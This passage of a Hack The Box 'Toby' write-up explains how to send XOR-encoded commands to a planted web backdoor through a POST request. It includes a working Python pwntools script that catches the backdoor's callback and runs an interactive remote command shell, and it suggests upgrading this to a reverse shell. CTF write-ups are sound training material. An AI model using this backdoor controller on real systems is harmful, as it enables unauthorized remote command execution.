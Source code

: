 But if we XOR a string with null byte(0x00) it returns same value. So in POST request we will send 00 as key i.e **comment=746f627910.10.16.2:00**. This helps in decoding hex values easily.

#### Automated Script: backdoor.py
```
#!/usr/bin/env python3

from pwn import *

def xor(c,key):
	#xor the input with key 
	output=""
	for i in c:
		output+=chr(key^ord(i))
	return output.encode()

l=listen(20053) #strating a listener
_ = l.wait_for_connection()
a=l.recvline()
a=a.decode() # decoding received data and extracting xor key
a=(bytes.fromhex(a.split("|")[1]).decode()).split(':')[1]

key=ord((bytes.fromhex(a).decode()).split("_")[2])
print(f"key extracted:{key}\n")

def execute(cmd,key):
	#Send command to backdoor and decode the output
	l.sendline(cmd)
	a=(l.recvline()).decode()
	a=bytes.fromhex(a.split("|")[1]).decode()
	a=xor(a,key)
	print(a.decode()[4:])

while True:
	try:
		c=input("cmd> ")
		execute(xor(c,key),key)
	except KeyboardInterrupt:
		print('closing connection...')
		break
```
Run this script and replay the POST request in burp, it will prompt you for command you wan to run and everything is handled in background.

![Screenshot from 2022-04-18 16-09-36](https://user-images.githubusercontent.com/79413473/163797106-1d42ab57-ea5d-4ac4-bb5f-f4ef16ba1f2c.png)

[0xdf](https://0xdf.gitlab.io/2022/04/16/htb-toby.html) did a great job with sending post request from python script also. I couldn't figure it out with pwntools, maybe next time. You can get a reverse shell from here or upgrade this shell to forward shell it can be a fun exercise for you too.

![Screenshot from 2022-04-18 20-36-57](https://user-images.githubusercontent.com/79413473/163828648-1538dc5b-dbea-4336-a033-aef8b730096d.png)

